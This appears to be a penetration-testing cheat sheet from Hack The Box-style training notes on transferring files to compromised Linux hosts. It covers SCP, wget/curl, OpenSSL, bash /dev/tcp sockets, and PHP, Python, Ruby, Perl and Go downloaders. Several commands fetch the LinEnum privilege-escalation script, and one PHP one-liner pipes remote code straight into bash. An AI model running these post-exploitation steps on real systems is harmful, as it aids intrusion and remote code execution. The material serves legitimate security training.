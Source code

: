 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Linux File Transfer Methods

## SCP

### Download file via SCP from a remote server
````bash
scp <user>@<IP-ADDRESS>:/path/to/file <output_file_on_system>
````
### Upload file via SCP to a remote system
````bash
scp <local_file_on_system> <user>@<IP-ADDRESS>:/path/for/uploaded_file
````

## Wget / cURL

Wget and cURL are installed on many Linux distributions and support uploading as well as downloading files.
````bash
Ryohei@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
````
````bash
Ryohei@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
````

## OpenSSL

OpenSSL is frequently installed and is also often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

### Create certificate
````bash
Ryohei@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
````
### Stand up server
````bash
Ryohei@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
````
### Download file
````bash
Ryohei@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
````
## Bash (/dev/tcp)
There may also be situations where no obvious file transfer tools are available. In this case, as long as bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/tcp device file can be used for simple file downloads.

### Connect to Target's Webserver
````bash
Ryohei@htb[/htb]$ exec 3<>/dev/tcp/10.10.10.32/80
````
### HTTP GET Request
````bash
Ryohei@htb[/htb]$ echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
````
### Print the Response
````bash
Ryohei@htb[/htb]$ cat <&3
````

## PHP
PHP is also very prevalent and provides multiple file transfer methods.

### File_get_contents()
````bash
Ryohei@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
````
### Fopen()
````bash
Ryohei@htb[/htb]$ php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
````
If the php-curl module has been installed, this can alternatively be used.

### Php-curl
````
Ryohei@htb[/htb]$ php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
````
It is also possible to retrieve each line as an array and pipe the output to bash.

````
Ryohei@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
````

## Python
Python is often present on Linux and can be used to download files when Wget and cURL are not available. Although Python isn’t currently installed by default in Windows, typing Python in a command prompt opens the Windows Store's official distribution with a single-click install. Python is frequently installed on developer and IT computers and is bundled by default with major business financial applications such as Bloomberg (Bloomberg Professional Services).

### Python 2
````bash
Ryohei@htb[/htb]$ python2
````
````python
import urllib
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````
### Python 3
````bash
Ryohei@htb[/htb]$ python3
````
````python
import urllib.request
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")
````

## Other Languages
Ruby, Perl, and Golang are some other popular languages that can also transfer files.

### Ruby
````bash
Ryohei@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
````
### Perl
````bash
Ryohei@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
````
### Go
````go
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("LinEnum.sh")
     _ = err
     defer lfile.Close()

     rfile := "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"
     response, err := http.Get(rfile)
     defer response.Body.Close()

     io.Copy(lfile, response.Body)
}
````
